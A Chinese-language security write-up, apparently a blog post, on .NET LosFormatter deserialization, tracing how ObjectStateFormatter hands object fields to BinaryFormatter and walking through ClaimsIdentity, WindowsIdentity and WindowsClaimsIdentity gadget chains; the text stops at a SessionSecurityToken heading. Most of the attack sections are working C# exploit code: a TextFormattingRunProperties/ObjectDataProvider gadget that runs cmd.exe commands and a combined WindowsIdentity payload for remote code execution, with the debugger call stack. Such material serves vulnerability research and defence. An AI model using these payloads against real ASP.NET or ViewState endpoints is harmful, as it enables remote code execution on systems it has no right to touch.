# LosFormatter

LosFormatter一般用于序列化存储视图流状态，多用于Web窗体，如ViewState。LosFormatter封装在System.Web.dll中，命名空间为System.Web.UI，使用LosFormatter反序列化不信任的数据会造成RCE。

# demo

其构造方法有多个重载，其中无参构造表示不启用mac校验。



两个参数的构造方法表示使用"启用mac"和"mac密钥修饰符"来初始化LosFormatter。使用LosFormatter序列化对象仍需要标记[Serializable]

```csharp
using System;
using System.IO;
using System.Text;
using System.Web.UI;

namespace LosFormatterDeserialize
{
    class Program
    {
        [Serializable]
        class Person
        {
            private string name;

            public string Name
            {
                get { return name; }
                set { name = value; }
            }

            private int age;

            public int Age
            {
                get { return age; }
                set { age = value; }
            }

            public Person(string name, int age)
            {
                Name = name;
                Age = age;
            }

            public void SayHello()
            {
                Console.WriteLine("hello");
            }
        }
        static void Main(string[] args)
        {
            LosFormatter losFormatter = new LosFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                losFormatter.Serialize(memory, new Person("jack", 15));

                memory.Position = 0;
                Person p = (Person)losFormatter.Deserialize(memory);
                p.SayHello();
                Console.WriteLine(Encoding.UTF8.GetString(memory.ToArray()));
            }
            Console.ReadKey();
        }
    }
}
```

输出

```
hello
/wEytAEAAQAAAP////8BAAAAAAAAAAwCAAAATkxvc0Zvcm1hdHRlckRlc2VyaWFsaXplLCBWZXJzaW9uPTEuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49bnVsbAUBAAAAJkxvc0Zvcm1hdHRlckRlc2VyaWFsaXplLlByb2dyYW0rUGVyc29uAgAAAARuYW1lA2FnZQEACAIAAAAGAwAAAARqYWNrDwAAAAs=
```

可见losformatter序列化之后的对象是base64编码的，以`/wEyt`开头，实战中应注意。


LosFormatter有多个反序列化Deserialize()重载


不仅可以传入数据流，还可以传入base64之后的字符串，即上文中序列化之后的数据。如下：

```csharp
static void Main(string[] args)
{
    LosFormatter losFormatter = new LosFormatter();
    Person p = (Person)losFormatter.Deserialize("/wEytAEAAQAAAP////8BAAAAAAAAAAwCAAAATkxvc0Zvcm1hdHRlckRlc2VyaWFsaXplLCBWZXJzaW9uPTEuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49bnVsbAUBAAAAJkxvc0Zvcm1hdHRlckRlc2VyaWFsaXplLlByb2dyYW0rUGVyc29uAgAAAARuYW1lA2FnZQEACAIAAAAGAwAAAARqYWNrDwAAAAs=");
    p.SayHello();
    Console.ReadKey();
}
// 输出
hello
```

深究其反序列化实现



发现最终交由ObjectStateFormatter进行反序列化，先从base64转字节数组，然后判断是否启用mac等。



具体细节下一节讲解ObjectStateFormatter细说，现在只需要知道，LosFormatter交由ObjectStateFormatter反序列化处理。

# 攻击链

ysoserial.net中除了ObjectDataProvider不支持LosFormatter以外，其他的gadget都支持。本文讲解ClaimsIdentity、WindowsIdentity、WindowsClaimsIdentity、SessionSecurityToken。

## ClaimsIdentity

ClaimsIdentity中有多种触发方式，其中一种是利用自身的m_bootstrapContext字段。该类源代码位于https://github.com/microsoft/referencesource/blob/5697c29004a34d80acdaf5742d7e699022c64ecd/mscorlib/system/security/claims/ClaimsIdentity.cs

在该类的GetObjectData中



将自身m_bootstrapContext字段对象存放到`System.Security.ClaimsIdentity.bootstrapContext`中。而该字段是object类型。并且没有标记NonSerialized



此时写一个案例来看下当类自身字段值为object类型时的堆栈。

```csharp
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Generic;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security;
using System.Security.Claims;
using System.Security.Principal;
using System.Text;
using System.Web.Security;
using System.Web.UI;
using System.Windows.Data;
using System.Windows.Markup;

namespace LosFormatterDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {

            LosFormatter losFormatter = new LosFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                TextFormattingRunPropertiesMarshal textFormattingRunPropertiesMarshal = new TextFormattingRunPropertiesMarshal();
                My my = new My();
                my.o = textFormattingRunPropertiesMarshal;
                losFormatter.Serialize(memory,my);
                memory.Position = 0;
                losFormatter.Deserialize(memory);
            }
            Console.ReadKey();
        }
    }
    [Serializable]
    public class My
    {
        public object o;
    }

    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;
            
            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

新建了一个My类的对象，将其字段o赋值为TextFormattingRunPropertiesMarshal反序列化payload。运行时弹出计算器。堆栈

```
>	System.dll!System.Diagnostics.Process.Start() (IL=0x0000, Native=0x00007FFC8C45E2B0+0x31)
 	[本机到托管的转换]
 	mscorlib.dll!System.Reflection.RuntimeMethodInfo.UnsafeInvokeInternal(object obj, object[] parameters, object[] arguments) (IL≈0x000F, Native=0x00007FFC8BD88840+0x80)
 	mscorlib.dll!System.Reflection.RuntimeMethodInfo.Invoke(object obj, System.Reflection.BindingFlags invokeAttr, System.Reflection.Binder binder, object[] parameters, System.Globalization.CultureInfo culture) (IL≈0x007F, Native=0x00007FFC8BD87A40+0x1F0)
 	mscorlib.dll!System.RuntimeType.InvokeMember(string name, System.Reflection.BindingFlags bindingFlags, System.Reflection.Binder binder, object target, object[] providedArgs, System.Reflection.ParameterModifier[] modifiers, System.Globalization.CultureInfo culture, string[] namedParams) (IL≈0x0739, Native=0x00007FFC8C45C3E0+0x1CA2)
 	mscorlib.dll!System.Type.InvokeMember(string name, System.Reflection.BindingFlags invokeAttr, System.Reflection.Binder binder, object target, object[] args, System.Globalization.CultureInfo culture) (IL≈0x0000, Native=0x00007FFC8C45C340+0x75)
 	PresentationFramework.dll!System.Windows.Data.ObjectDataProvider.InvokeMethodOnInstance(out System.Exception e) (IL≈0x0043, Native=0x00007FFC8C45BB50+0x13E)
 	PresentationFramework.dll!System.Windows.Data.ObjectDataProvider.QueryWorker(object obj) (IL≈0x008C, Native=0x00007FFC8BED2F90+0x1AD)
 	PresentationFramework.dll!System.Windows.Data.ObjectDataProvider.BeginQuery() (IL=0x005D, Native=0x00007FFC8BECDC10+0x1C1)
 	WindowsBase.dll!System.Windows.Data.DataSourceProvider.Refresh() (IL=0x000D, Native=0x00007FFC8BECD7A0+0x36)
 	WindowsBase.dll!System.Windows.Data.DataSourceProvider.EndDefer() (IL=0x001C, Native=0x00007FFC8C45BAF0+0x36)
 	WindowsBase.dll!System.Windows.Data.DataSourceProvider.EndInit() (IL=0x0006, Native=0x00007FFC8C45BAB0+0x25)
 	WindowsBase.dll!System.Windows.Data.DataSourceProvider.System.ComponentModel.ISupportInitialize.EndInit() (IL=0x0006, Native=0x00007FFC8C45BA60+0x2E)
 	System.Xaml.dll!MS.Internal.Xaml.Runtime.ClrObjectRuntime.InitializationGuard(System.Xaml.XamlType xamlType, object obj, bool begin) (IL=0x001B, Native=0x00007FFC8C438290+0x9C)
 	System.Xaml.dll!System.Xaml.XamlObjectWriter.Logic_EndInit(MS.Internal.Xaml.Context.ObjectWriterContext ctx) (IL=0x001C, Native=0x00007FFC8C456E40+0x8D)
 	System.Xaml.dll!System.Xaml.XamlObjectWriter.WriteEndObject() (IL=0x02C2, Native=0x00007FFC8C455660+0x80A)
 	System.Xaml.dll!System.Xaml.XamlWriter.WriteNode(System.Xaml.XamlReader reader) (IL≈0x005E, Native=0x00007FFC8C428710+0x165)
 	PresentationFramework.dll!System.Windows.Markup.WpfXamlLoader.TransformNodes(System.Xaml.XamlReader xamlReader, System.Xaml.XamlObjectWriter xamlWriter, bool onlyLoadOneNode, bool skipJournaledProperties, bool shouldPassLineNumberInfo, System.Xaml.IXamlLineInfo xamlLineInfo, System.Xaml.IXamlLineInfoConsumer xamlLineInfoConsumer, MS.Internal.Xaml.Context.XamlContextStack<System.Windows.Markup.WpfXamlFrame> stack, System.Windows.Markup.IStyleConnector styleConnector) (IL=0x0166, Native=0x00007FFC8C426C00+0x4B0)
 	PresentationFramework.dll!System.Windows.Markup.WpfXamlLoader.Load(System.Xaml.XamlReader xamlReader, System.Xaml.IXamlObjectWriterFactory writerFactory, bool skipJournaledProperties, object rootObject, System.Xaml.XamlObjectWriterSettings settings, System.Uri baseUri) (IL=0x00CA, Native=0x00007FFC8C423C60+0x375)
 	PresentationFramework.dll!System.Windows.Markup.WpfXamlLoader.Load(System.Xaml.XamlReader xamlReader, bool skipJournaledProperties, System.Uri baseUri) (IL≈0x0006, Native=0x00007FFC8C4231D0+0x71)
 	PresentationFramework.dll!System.Windows.Markup.XamlReader.Load(System.Xaml.XamlReader xamlReader, System.Windows.Markup.ParserContext parserContext) (IL≈0x0038, Native=0x00007FFC8C4192B0+0xFF)
 	PresentationFramework.dll!System.Windows.Markup.XamlReader.Load(System.Xml.XmlReader reader, System.Windows.Markup.ParserContext parserContext, System.Windows.Markup.XamlParseMode parseMode, bool useRestrictiveXamlReader, System.Collections.Generic.List<System.Type> safeTypes) (IL≈0x00F6, Native=0x00007FFC8C2DAB50+0x44E)
 	PresentationFramework.dll!System.Windows.Markup.XamlReader.Load(System.Xml.XmlReader reader, System.Windows.Markup.ParserContext parserContext, System.Windows.Markup.XamlParseMode parseMode, bool useRestrictiveXamlReader) (IL≈0x0000, Native=0x00007FFC8C2DA1B0+0x4F)
 	PresentationFramework.dll!System.Windows.Markup.XamlReader.Load(System.Xml.XmlReader reader, System.Windows.Markup.ParserContext parserContext, System.Windows.Markup.XamlParseMode parseMode) (IL≈0x0000, Native=0x00007FFC8C2DA150+0x3E)
 	PresentationFramework.dll!System.Windows.Markup.XamlReader.Load(System.Xml.XmlReader reader) (IL≈0x000E, Native=0x00007FFC8C2DA090+0x8A)
 	PresentationFramework.dll!System.Windows.Markup.XamlReader.Parse(string xamlText) (IL≈0x000E, Native=0x00007FFC8C2D7C60+0x77)
 	Microsoft.PowerShell.Editor.dll!Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties.GetObjectFromSerializationInfo(string name, System.Runtime.Serialization.SerializationInfo info) (IL≈0x0017, Native=0x00007FFC8C2D77F0+0x89)
 	Microsoft.PowerShell.Editor.dll!Microsoft.VisualStudio.Text.Formatting.TextFormattingRunProperties.TextFormattingRunProperties(System.Runtime.Serialization.SerializationInfo info, System.Runtime.Serialization.StreamingContext context) (IL≈0x0006, Native=0x00007FFC8C2D7250+0x6D)
 	[本机到托管的转换]
 	mscorlib.dll!System.Reflection.RuntimeConstructorInfo.SerializationInvoke(object target, System.Runtime.Serialization.SerializationInfo info, System.Runtime.Serialization.StreamingContext context) (IL=0x000A, Native=0x00007FFC8C2D6DF0+0x3D)
 	mscorlib.dll!System.Runtime.Serialization.ObjectManager.CompleteISerializableObject(object obj, System.Runtime.Serialization.SerializationInfo info, System.Runtime.Serialization.StreamingContext context) (IL=0x007F, Native=0x00007FFC8C2D6810+0x1B9)
 	mscorlib.dll!System.Runtime.Serialization.ObjectManager.FixupSpecialObject(System.Runtime.Serialization.ObjectHolder holder) (IL=0x0093, Native=0x00007FFC8C2D6420+0x2E1)
 	mscorlib.dll!System.Runtime.Serialization.ObjectManager.DoFixups() (IL=0x0061, Native=0x00007FFC8C2D5C90+0x18E)
 	mscorlib.dll!System.Runtime.Serialization.Formatters.Binary.ObjectReader.Deserialize(System.Runtime.Remoting.Messaging.HeaderHandler handler, System.Runtime.Serialization.Formatters.Binary.__BinaryParser serParser, bool fCheck, bool isCrossAppDomain, System.Runtime.Remoting.Messaging.IMethodCallMessage methodCallMessage) (IL=0x008B, Native=0x00007FFC8C2B8920+0x1E8)
 	mscorlib.dll!System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.Deserialize(System.IO.Stream serializationStream, System.Runtime.Remoting.Messaging.HeaderHandler handler, bool fCheck, bool isCrossAppDomain, System.Runtime.Remoting.Messaging.IMethodCallMessage methodCallMessage) (IL≈0x00A2, Native=0x00007FFC8C2B7E50+0x2CE)
 	mscorlib.dll!System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.Deserialize(System.IO.Stream serializationStream, System.Runtime.Remoting.Messaging.HeaderHandler handler, bool fCheck, System.Runtime.Remoting.Messaging.IMethodCallMessage methodCallMessage) (IL≈0x0000, Native=0x00007FFC8C2B7DD0+0x58)
 	mscorlib.dll!System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.Deserialize(System.IO.Stream serializationStream, System.Runtime.Remoting.Messaging.HeaderHandler handler, bool fCheck) (IL≈0x0000, Native=0x00007FFC8C2B7D50+0x4F)
 	mscorlib.dll!System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.Deserialize(System.IO.Stream serializationStream, System.Runtime.Remoting.Messaging.HeaderHandler handler) (IL≈0x0000, Native=0x00007FFC8C2B7CE0+0x41)
 	mscorlib.dll!System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.Deserialize(System.IO.Stream serializationStream) (IL≈0x0000, Native=0x00007FFC8C2B7C80+0x36)
 	System.Web.dll!System.Web.UI.ObjectStateFormatter.DeserializeValue(System.Web.UI.ObjectStateFormatter.SerializerBinaryReader reader) (IL≈0x044D, Native=0x00007FFC8C2B67D0+0xE8A)
 	System.Web.dll!System.Web.UI.ObjectStateFormatter.Deserialize(System.IO.Stream inputStream) (IL≈0x0037, Native=0x00007FFC8C2B6370+0x11C)
 	System.Web.dll!System.Web.UI.ObjectStateFormatter.Deserialize(string inputString, System.Web.Security.Cryptography.Purpose purpose) (IL≈0x0110, Native=0x00007FFC8C2B5630+0x36B)
 	System.Web.dll!System.Web.UI.ObjectStateFormatter.Deserialize(string inputString) (IL≈0x0000, Native=0x00007FFC8C2B55C0+0x40)
 	System.Web.dll!System.Web.UI.LosFormatter.Deserialize(string input) (IL≈0x0000, Native=0x00007FFC8C2B5560+0x39)
 	System.Web.dll!System.Web.UI.LosFormatter.Deserialize(System.IO.TextReader input) (IL≈0x004F, Native=0x00007FFC8C2B3DD0+0x120)
 	System.Web.dll!System.Web.UI.LosFormatter.Deserialize(System.IO.Stream stream) (IL≈0x0009, Native=0x00007FFC8C2B37B0+0x70)
 	LosFormatterDeserialize.exe!LosFormatterDeserialize.Program.Main(string[] args) (IL≈0x0033, Native=0x00007FFC8B9C6F70+0x119)
```

可见ObjectStateFormatter.DeserializeValue()在反序列化还原字段时又进入了binaryformatter的反序列化。看一下ObjectStateFormatter.SerializeValue序列化时的实现

https://github.com/microsoft/referencesource/blob/5697c29004a34d80acdaf5742d7e699022c64ecd/System.Web/UI/ObjectStateFormatter.cs#L884

分别判断字段类型，然后分别写入一个类型对应的Token_xxx值和字段的值。在https://github.com/microsoft/referencesource/blob/5697c29004a34d80acdaf5742d7e699022c64ecd/System.Web/UI/ObjectStateFormatter.cs#L1163 中判断完所有的基本类型之后尝试获取类型转换器，如果没有类型转换器就直接用二进制formatter序列化存储。注意先写入了一个Token_BinarySeriaized。



那么在反序列化的时候看下ObjectStateFormatter.DeserializeValue()的实现，先读出一个字节，字节中存储着类型，然后开始case



当case到Token_BinarySerialized时



直接binary反序列化。

那么至此可知，LosFormatter底层ObjectStatesFormatter会调用binaryformatter序列化和反序列化自身object字段。这也是ClaimsIdentity链的原理，套娃二次反序列化。

## WindowsIdentity

WindowsIdentity继承自ClaimsIdentity，其反序列化构造函数也调用了父类的反序列化构造函数



在父类反序列化构造函数中



跟进Deserialize() https://github.com/microsoft/referencesource/blob/5697c29004a34d80acdaf5742d7e699022c64ecd/mscorlib/system/security/claims/ClaimsIdentity.cs#L1332



三个case中ActorKey和BootstrapContextKey均可以进行binaryformatter反序列化。ClaimsKey进入DeserializeClaims



可见三个case均通过binaryformatter进行反序列化，看下几个case对应的值



那么在info中设置key为System.Security.ClaimsIdentity.actor或bootstrapContext或claims，值为base64之后的TextFormattingRunPropertiesMarshal对象即可触发RCE。

整合payload如下：

```csharp
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Principal;
using System.Web.UI;
using System.Windows.Data;
using System.Windows.Markup;

namespace LosFormatterDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {

            LosFormatter losFormatter = new LosFormatter();
            BinaryFormatter bf = new BinaryFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                TextFormattingRunPropertiesMarshal textFormattingRunPropertiesMarshal = new TextFormattingRunPropertiesMarshal();
                bf.Serialize(memory, textFormattingRunPropertiesMarshal);
                string b64payload = Convert.ToBase64String(memory.ToArray());
                WindowsIdentityIdentityMarshal windowsIdentityIdentityMarshal = new WindowsIdentityIdentityMarshal(b64payload);

                memory.Position = 0;
                losFormatter.Serialize(memory, windowsIdentityIdentityMarshal);
                memory.Position = 0;
                losFormatter.Deserialize(memory);

            }
            Console.ReadKey();
        }
    }
    [Serializable]
    public class WindowsIdentityIdentityMarshal : ISerializable
    {
        public WindowsIdentityIdentityMarshal(string b64payload)
        {
            B64Payload = b64payload;
        }

        private string B64Payload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsIdentity));
            info.AddValue("System.Security.ClaimsIdentity.actor", B64Payload);
            info.AddValue("System.Security.ClaimsIdentity.bootstrapContext", B64Payload);
            info.AddValue("System.Security.ClaimsIdentity.claims", B64Payload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

## WindowsClaimsIdentity

查看ysoserial.net中的payload构造，发现和上文原理一样，也是通过actor字段。



不再赘述。需要注意的是：

> Requires Microsoft.IdentityModel.Claims namespace (not default GAC)

该类所在的命名空间不在GAC([Global Assembly Cache](https://docs.microsoft.com/en-us/dotnet/framework/app-domains/gac))中，限制较大。

## SessionSecurityToken

在yso中

